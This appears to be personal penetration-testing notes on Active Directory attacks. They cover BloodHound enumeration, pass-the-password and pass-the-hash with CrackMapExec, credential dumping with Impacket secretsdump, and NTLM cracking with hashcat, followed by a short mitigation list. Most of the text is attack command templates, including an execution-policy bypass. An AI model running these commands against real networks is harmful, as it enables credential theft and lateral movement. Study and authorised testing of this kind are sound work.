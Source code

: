 bloodhound
```
neo4j console
bloodhound
```

collect data
```
powershell -ep bypass
. .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain domain.name -ZipFileName file.zip
```

bloodhound

Upload data -> locate file.zip

Queries -> Find to Shortest Path to Domain Admin

Queries -> Shortest Path to High Value Targets

## Post Compromise Attacks

### pass the password

[CrackMapExec Github link](https://github.com/byt3bl33d3r/CrackMapExec)

crackmapexec
```
crackmapexec ip -u username -d domain -p password
```

### pass the hash

[Impacket Github link](https://github.com/SecureAuthCorp/impacket)

[CrackMapExec Github link](https://github.com/byt3bl33d3r/CrackMapExec)

secretsdump
```
secretsdump.py domain.name/username:password@ip
```

crackmapexec
```
crackmapexec ip -u username -H hash --local
```

* ntlm can be pass
* ntlmv2 cannot be pass

hashcat
```
hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt -O
```

Mitigation:
- limit account re-use
- - avoid re-using local admin password
- - disable guest and administrator accounts
- - limit who is a local administrator
- utilize strong passwords
- - the longer the better >14
- - avoid using common words
- - long sentences
- privilege access management
- - check out/in sensitve accounts when needed
- - automatically rotate passwords on check out and check in
- - limits pass attacks as hash/password is strong an constantly rotated
